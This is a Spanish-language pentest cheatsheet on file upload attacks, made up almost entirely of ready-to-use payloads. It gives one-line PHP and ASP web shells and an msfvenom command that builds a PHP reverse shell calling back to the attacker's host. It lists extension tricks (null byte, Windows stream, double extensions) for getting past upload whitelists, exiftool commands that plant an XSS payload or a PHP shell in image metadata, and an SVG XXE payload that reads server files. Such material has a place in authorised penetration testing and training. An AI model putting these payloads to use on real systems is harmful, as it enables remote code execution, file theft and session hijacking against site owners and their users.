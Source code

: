 # Cheatsheet ⚙

## Shells
| Ejecución de Comandos (Básico) 👩‍💻 |
|:---:|
| **PHP:** `<?php system($_GET['cmd']); ?>` | 
| **ASP:** `<% eval request('cmd') %>` | 
| **PHP MSFVENOM:** `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` |

## Extensiones

| Evasión de WhiteList 📄 |
|:---:|
| **NULL BYTE**: `cmd.php%00.png` | 
| **Windows**: `cmd.asp:.png` |
| **Doble Extensión**: `cmd.jpg.php` |
| **Doble Extensión Reversa**: `cmd.php.jpg` |


## Usando ExifTool 🔬
| Inyecciones 💉 |
|:---:|
| **XSS**: `exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' [Image]` | 
| **SHELL PHP**: `exiftool -DocumentName='<?php system($_GET["cmd"]); ?>' [Image]` \| `mv [Image] [Image].jpeg.php` |
| **XXE** |
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=[Recurso]"> ]>
<svg>&xxe;</svg>
```



